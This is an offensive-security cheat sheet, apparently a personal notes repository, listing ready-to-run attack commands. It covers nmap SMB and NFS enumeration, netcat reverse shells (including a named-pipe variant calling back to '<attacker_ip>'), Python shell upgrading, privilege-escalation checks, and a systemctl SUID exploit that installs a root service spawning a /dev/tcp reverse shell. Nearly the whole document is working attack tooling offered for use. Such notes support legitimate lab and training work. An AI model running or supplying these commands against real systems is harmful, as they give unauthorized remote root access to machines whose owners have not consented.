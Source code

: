 # CyberCheatSheets
Reference Sheets / Notes of techniques learned

## Enumeration:
+ <b>Samba - Shares & Users</b>
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 192.168.0.1
```

+ <b>NFS - Mounts</b>
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 192.168.0.1
```


## Reverse Shells:

+ <b>Netcat - Listener</b>
```
$nc -nvlp 4242
```

+ <b>Netcat - Connecting to Listener</b>
```
nc -e /bin/sh 192.168.0.1 4242
```

+ <b>Netcat - Connecting to Listener without `-e`</b>
```
$mknod /tmp/backpipe p
$/bin/sh 0</tmp/backpipe | nc <attacker_ip> 4242 1>/tmp/backpipe
```


## Upgrading/Stablizing Shells:

+ <b>Using Ptyhon</b>

*Upgrading:*
```
python -c ‘import pty;pty.spawn(“/bin/bash”)’
$export TERM=xterm
```

*Stablizing:*
```
$^Z
$stty raw -echo; fg
(ENTER)
```


## Privilege Escalation:
+ <b>Add '.' to $PATH</b>
```
PATH=.:${PATH}
```

+ <b>Check for processes running as root</b>
```
ps -aux | grep root
```

+ <b>Check for world writable files</b>

```
find / -perm -2 -type f 2>/dev/null
```


+ <b>`/bin/systemctl` SUID</b>

*Check if `/bin/systemcl` is exploitable*
```
find / -perm -u=s -type f 2>/dev/null
```
or
```
find / -perm -4000 2>/dev/null
```

*Write service file with printf (will be written to `/tmp/root.service`)*
```
printf '[Unit]\nDescription=root\n\n[Service]\nType=simple\nUser=root\nExecStart=/bin/bash -c "bash -i >& /dev/tcp/192.168.0.1/4242 0>&1"\n\n[Install]\nWantedBy=multi-user.target\n' > /tmp/root.service
```

*Enable and start the service*
```
systemctl enable /tmp/root.service
systemctl start root
```
